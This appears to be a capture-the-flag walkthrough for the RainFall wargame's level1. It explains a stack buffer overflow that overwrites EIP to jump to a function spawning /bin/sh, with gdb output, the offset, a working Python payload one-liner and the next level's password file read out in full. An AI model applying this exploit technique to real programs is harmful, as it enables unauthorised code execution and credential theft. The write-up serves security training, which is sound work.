

# Walkthrough

**Main** : 
> The goal buffer overflow is to overwrite the (EIP) register, which controls the program's flow of execution.
> By controlling EIP, we can redirect the program to execute code of your choice.
> Exploiting a buffer overflow vulnerability to jump to another function 
> Make buffer overflow to launch a shell pogram.
> The idea is to blow the buffer in the  `main`  then jump to the  `run`  function
> The `run` function launch  a  `system("/bin/sh");`


**Process**:  
>   Get the address of `run` function
>   Find the offset
>   Payload




## Get the address of `run` function 
```
(gdb) info functions run
All functions matching regular expression "run":

Non-debugging symbols:
0x08048444  run
```

## Get offset 
We find that the offset is **76**.

```
(gdb) run 
Starting program: /home/user/level1/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? () #---> 76 in decimal

```

## Payload

```

level1@RainFall:~$ (python -c "print '\x90' * 76 + '\x08\x04\x84\x44'[::-1]"; cat) | ./level1
Good... Wait what?
  cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```
